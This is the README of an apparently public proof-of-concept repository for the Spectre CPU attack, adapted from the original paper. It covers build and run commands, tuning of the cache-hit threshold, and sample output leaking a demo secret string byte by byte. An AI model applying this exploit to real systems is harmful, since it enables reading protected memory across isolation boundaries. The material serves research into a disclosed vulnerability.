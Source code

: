 # SpectrePoC

Proof of concept code for the Spectre CPU exploit.

## Attribution

The source code originates from the example code provided in the "Spectre Attacks: Exploiting Speculative Execution" paper found here:

https://spectreattack.com/spectre.pdf

The source code in this repository was conveniently provided by Erik August's gist, found here: https://gist.github.com/ErikAugust/724d4a969fb2c6ae1bbd7b2a9e3d4bb6

The code has been minimally modified to fix build issues and improve comments where possible.

## Building

The project can be built with GNU Make and GCC.

On debian these are included in the `build-essential` metapackage.

Building is as easy as:

`cd SpectrePoC`

`make`

The output binary is `./spectre.out`.

If you want to build it manually, make sure to disable all optimisations (aka, don't use -O2), as it will break the program.

## Executing

To run specter with the example secret string "The Magic Words are Squeamish Ossifrage." as the target, simply run `./spectre.out` with no command line arguments.

If desired, a custom target address and length can be given as the first and second command line arguments, respectively.

## Tweaking

If you're getting lackluster results, you may need to tweak the `CACHE_HIT_THRESHOLD`. This can be done by changing the line
`#define CACHE_HIT_THRESHOLD (80)`.

While a value of 80 appears to work for most desktop CPUs, a larger value may be required for slower CPUs. For example, on a AMD GX-412TC SOC, a value of 300 was required to get a good result.

## Example output

The following was output on an AMD GX-412TC SOC, with a `CACHE_HIT_THRESHOLD` of 300:

`./spectre.out:`

```
Reading 40 bytes:
Reading at malicious_x = 0xffffffffffdfed78... Success: 0x54=’T’ score=2
Reading at malicious_x = 0xffffffffffdfed79... Success: 0x68=’h’ score=2
Reading at malicious_x = 0xffffffffffdfed7a... Success: 0x65=’e’ score=2
Reading at malicious_x = 0xffffffffffdfed7b... Success: 0x20=’ ’ score=2
Reading at malicious_x = 0xffffffffffdfed7c... Success: 0x4D=’M’ score=2
Reading at malicious_x = 0xffffffffffdfed7d... Success: 0x61=’a’ score=2
Reading at malicious_x = 0xffffffffffdfed7e... Success: 0x67=’g’ score=2
Reading at malicious_x = 0xffffffffffdfed7f... Unclear: 0x69=’i’ score=997 (second best: 0x75 score=979)
Reading at malicious_x = 0xffffffffffdfed80... Unclear: 0x63=’c’ score=999 (second best: 0xC2 score=975)
Reading at malicious_x = 0xffffffffffdfed81... Unclear: 0x20=’ ’ score=998 (second best: 0x15 score=977)
Reading at malicious_x = 0xffffffffffdfed82... Unclear: 0x57=’W’ score=998 (second best: 0xB8 score=972)
Reading at malicious_x = 0xffffffffffdfed83... Unclear: 0x6F=’o’ score=994 (second best: 0xC3 score=974)
Reading at malicious_x = 0xffffffffffdfed84... Unclear: 0x72=’r’ score=997 (second best: 0xFC score=972)
Reading at malicious_x = 0xffffffffffdfed85... Unclear: 0x64=’d’ score=997 (second best: 0xB7 score=975)
Reading at malicious_x = 0xffffffffffdfed86... Unclear: 0x73=’s’ score=997 (second best: 0x75 score=977)
Reading at malicious_x = 0xffffffffffdfed87... Unclear: 0x20=’ ’ score=998 (second best: 0xB7 score=975)
Reading at malicious_x = 0xffffffffffdfed88... Unclear: 0x61=’a’ score=999 (second best: 0xCE score=976)
Reading at malicious_x = 0xffffffffffdfed89... Unclear: 0x72=’r’ score=996 (second best: 0xB7 score=976)
Reading at malicious_x = 0xffffffffffdfed8a... Unclear: 0x65=’e’ score=998 (second best: 0x1B score=978)
Reading at malicious_x = 0xffffffffffdfed8b... Unclear: 0x20=’ ’ score=996 (second best: 0xC2 score=965)
Reading at malicious_x = 0xffffffffffdfed8c... Unclear: 0x53=’S’ score=995 (second best: 0x7A score=967)
Reading at malicious_x = 0xffffffffffdfed8d... Unclear: 0x71=’q’ score=996 (second best: 0x6A score=968)
Reading at malicious_x = 0xffffffffffdfed8e... Unclear: 0x75=’u’ score=999 (second best: 0xB7 score=966)
Reading at malicious_x = 0xffffffffffdfed8f... Unclear: 0x65=’e’ score=997 (second best: 0xFA score=966)
Reading at malicious_x = 0xffffffffffdfed90... Unclear: 0x61=’a’ score=995 (second best: 0xA1 score=969)
Reading at malicious_x = 0xffffffffffdfed91... Unclear: 0x6D=’m’ score=995 (second best: 0x8B score=963)
Reading at malicious_x = 0xffffffffffdfed92... Unclear: 0x69=’i’ score=998 (second best: 0x1B score=966)
Reading at malicious_x = 0xffffffffffdfed93... Unclear: 0x73=’s’ score=996 (second best: 0x24 score=960)
Reading at malicious_x = 0xffffffffffdfed94... Unclear: 0x68=’h’ score=999 (second best: 0x27 score=964)
Reading at malicious_x = 0xffffffffffdfed95... Unclear: 0x20=’ ’ score=994 (second best: 0xCE score=965)
Reading at malicious_x = 0xffffffffffdfed96... Unclear: 0x4F=’O’ score=997 (second best: 0xEF score=963)
Reading at malicious_x = 0xffffffffffdfed97... Unclear: 0x73=’s’ score=993 (second best: 0x48 score=976)
Reading at malicious_x = 0xffffffffffdfed98... Unclear: 0x73=’s’ score=997 (second best: 0xB7 score=973)
Reading at malicious_x = 0xffffffffffdfed99... Unclear: 0x69=’i’ score=998 (second best: 0xC8 score=962)
Reading at malicious_x = 0xffffffffffdfed9a... Unclear: 0x66=’f’ score=994 (second best: 0xFA score=966)
Reading at malicious_x = 0xffffffffffdfed9b... Unclear: 0x72=’r’ score=995 (second best: 0x3D score=968)
Reading at malicious_x = 0xffffffffffdfed9c... Unclear: 0x61=’a’ score=994 (second best: 0x48 score=971)
Reading at malicious_x = 0xffffffffffdfed9d... Unclear: 0x67=’g’ score=997 (second best: 0xFA score=972)
Reading at malicious_x = 0xffffffffffdfed9e... Unclear: 0x65=’e’ score=994 (second best: 0x59 score=959)
Reading at malicious_x = 0xffffffffffdfed9f... Unclear: 0x2E=’.’ score=995 (second best: 0x8B score=966)
```

## Contributing

Feel free to add your results to the "Results" issue. Include your `CACHE_HIT_THRESHOLD`, OS details, CPU details like vendor Id, family, model name, stepping, microcode, Mhz, and cache size. These can be found by running `uname -a` and `cat /proc/cpuinfo`.
